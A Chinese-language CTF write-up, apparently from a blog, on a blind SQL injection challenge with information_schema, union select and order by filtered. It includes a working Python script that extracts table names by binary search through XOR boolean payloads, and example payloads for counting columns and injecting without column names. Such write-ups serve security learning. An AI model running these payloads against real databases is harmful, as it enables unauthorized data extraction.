 过滤了information\_schema，可以使用`sys.schema_table_statistics_with_buffer`获取表名\
`select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()`

脚本如下

```python
# users233333333333333,f1ag_1s_h3r3_hhhhh
def get_table():
    flag = ''
    for i in range(1, 100):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            payload = f"0^(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{i},1))>{mid})"
            
            data = {
                'id': payload
            }
            
            r = requests.post(url=url, data=data)
            # print(r.text)
            if 'Nu1L' in  r.text:
                low = mid + 1
            if 'Error' in r.text:
                high = mid
                
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
```

不难猜flag在 f1ag\_1s\_h3r3\_hhhhh 剩下的就是无列名注入\
先判断一下f1ag\_1s\_h3r3\_hhhhh有几列，但是这里过滤了 union select 和 order by\
MySQL官方给了一种方法，https://dev.mysql.com/doc/refman/8.0/en/row-subqueries.html

SELECT \* FROM users WHERE (1) = (SELECT \* FROM flag\_123 LIMIT 0,1)\
这个语句可以正常返回，其中 users 有 3 列，flag\_123 只有 1 列，通过改变 WHERE 子句后的 1 的个数可以判断 flag\_123 的列数\
SELECT \* FROM users WHERE (1,2) = (SELECT \* FROM flag\_123 LIMIT 0,1) 该语句会返回错误

回到本题，其后端查询语句不难猜到为\
SELECT \* FROM users WHERE id = 1\
结合上面的内容可以改为\
SELECT \* FROM users WHERE id = 1 ^ ((1)=(select \* from f1ag\_1s\_h3r3\_hhhhh)) 如果返回错误说明不只有 1 列\
实际上，1 ^ ((1,2)=(select \* from f1ag\_1s\_h3r3\_hhhhh)) 是返回正确的，说明 f1ag\_1s\_h3r3\_hhhhh 有两列

SELECT \* FROM users WHERE id = 1 ^ (('0',2)<(select \* from f1ag\_1s\_h3r3\_hhhhh))\
按照理论来说，这个应该返回 Error，实际和理论相同\
SELECT \* FROM users WHERE id = 1 ^ (('0',2)>(select \* from f1ag\_1s\_h3r3\_hhhhh))\
按照理论来说，这个应该返回 Nu1L，实际和理论相同
